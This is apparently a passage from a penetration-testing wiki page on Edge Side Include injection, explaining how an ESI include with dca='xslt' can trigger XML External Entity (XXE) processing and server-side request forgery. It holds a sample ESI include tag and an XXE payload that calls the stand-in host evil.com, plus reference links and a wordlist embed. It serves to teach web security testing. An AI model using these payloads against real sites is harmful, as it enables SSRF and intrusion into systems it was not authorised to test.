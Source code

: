 By specifying the `xslt` value for the _dca_ parameter, it is feasible to include **`eXtensible Stylesheet Language Transformations (XSLT)`** based ESI. The inclusion causes the HTTP surrogate to retrieve the XML and XSLT files, with the latter filtering the former. Such XML files are exploitable for _XML External Entity (XXE)_ attacks, enabling attackers to execute SSRF attacks. However, the utility of this approach is limited since ESI includes already serve as an SSRF vector. Due to the absence of support in the underlying Xalan library, external DTDs are not processed, preventing local file extraction.

```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```

XSLT file:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```

Check the XSLT page:

{% content-ref url="xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

### References

* [https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [https://academy.hackthebox.com/module/145/section/1304](https://academy.hackthebox.com/module/145/section/1304)
* [https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91](https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91)

## Brute-Force Detection List

{% embed url="https://github.com/khulnasoft/Auto_Wordlists/blob/main/wordlists/ssi_esi.txt" %}

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
